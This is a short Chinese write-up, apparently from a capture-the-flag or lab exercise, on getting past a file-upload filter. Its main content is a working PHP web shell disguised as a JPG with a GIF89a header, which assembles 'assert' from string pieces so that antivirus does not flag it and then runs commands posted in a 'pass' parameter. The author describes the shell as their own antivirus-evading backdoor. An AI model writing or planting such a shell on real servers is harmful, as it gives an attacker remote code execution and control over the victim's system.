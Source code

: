 ![upload successful](./images/pasted-814.png)


# 34042 基础题目之文件上传突破

这里直接上传之前写的免杀马子(后缀jpg测试)成功上传
```1.jpg
GIF89a
<?php 
$a='ass';
$b='ert';
$ab=$a.$b;
$abc=ab;
$$abc($_POST[pass]);?>
```
![upload successful](./images/pasted-815.png)
